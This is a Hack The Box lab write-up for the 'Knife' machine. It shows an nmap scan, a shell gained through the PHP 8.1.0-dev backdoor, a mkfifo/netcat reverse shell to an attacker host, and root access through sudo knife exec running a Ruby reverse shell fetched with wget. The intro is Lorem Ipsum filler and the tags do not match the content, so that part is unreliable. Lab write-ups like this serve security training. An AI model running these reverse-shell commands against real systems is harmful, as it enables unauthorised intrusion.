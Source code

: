 ```yaml
---
layout: single
title: Knife - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-05-25
classes: wide
header:
  teaser: /assets/images/htb-writeup-knife/knife_logo.png
  teaser_home_page: true
  icon: /assets/images/linux.png
categories:
  - hackthebox
  - infosec
tags:  
  - linux
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-knife/knife_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. [root:/git/htb/knife]# nmap -Pn -n --open -sCV 10.10.10.242                                                                       (master✱)
  Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
  Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-24 10:51 CEST
  Nmap scan report for 10.10.10.242
  Host is up (0.044s latency).
  Not shown: 998 closed ports
  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey:
  |   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
  |   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
  |_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
  80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  |_http-title:  Emergent Medical Idea
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

DIRB:
  -

NIKTO:
  + Retrieved x-powered-by header: PHP/8.1.0-dev


2. By looking at the website there's not much we can do. No links, no nothing really.
   Going back the the enum data it's sparse, but from Nikto we find PHP version 8.1.0-dev - which sounds interesting.

   Googling around I came across an article mentioning 8.1.0-dev was released with a backdoor, making all sites using it vulnerable.
   Download a PoC script and run it to get a shell, and grab user.txt.


   [root:/git/htb/knife]# python3 backdoor_php8.1.0-dev.py                                                                           (master✱)
     Enter the full host url:
     http://10.10.10.242

     Interactive shell is opened on http://10.10.10.242
     Can't access tty; job crontol turned off.
     $ hostname && id
      knife
      uid=1000(james) gid=1000(james) groups=1000(james)

    $ cat /home/james/user.txt
      49e822672ec0b1f552fd10c37f815904


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. The PoC-shell is limited so start by sending a new reverse shell;

  $ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 4488 >/tmp/f

  [root:/git/htb/knife]# nc -lvnp 4488                                                                                              (master✱)
    listening on [any] 4488 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.242] 59996
    /bin/sh: 0: can't access tty; job control turned off
    $

Upgrade the shell.


2. As usual, start with 'sudo -l'.

  james@knife:/$ sudo -l
    Matching Defaults entries for james on knife:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User james may run the following commands on knife:
        (root) NOPASSWD: /usr/bin/knife


Running the command we get a lot of help output, including an interesting exec option.
  james@knife:/$ sudo /usr/bin/knife
    ..
    ** EXEC COMMANDS **
    knife exec [SCRIPT] (options)

Looking at the knife binary we see that it's ruby - so most likely a ruby script is the way to go here.


3. Upload a ruby reverse shell and execute it. Capture the shell and grab root.txt.

  james@knife:/dev/shm$ wget http://10.10.14.6/rev.rb
  james@knife:/dev/shm$ chmod +x rev.rb
  james@knife:/dev/shm$ sudo /usr/bin/knife exec /dev/shm/rev.rb

  [root:/git/htb/knife]# nc -lvnp 4499                                                                                              (master✱)
    listening on [any] 4499 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.242] 44298
    We are connected!
    root@knife:/dev/shm# id && hostname && cat /root/root.txt
      uid=0(root) gid=0(root) groups=0(root)
      knife
      8a3f41cb35cd8ca41e684e209e051a6c


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝


PHP 8.1.0-dev backdoor:
  https://github.com/flast101/php-8.1.0-dev-backdoor-rce
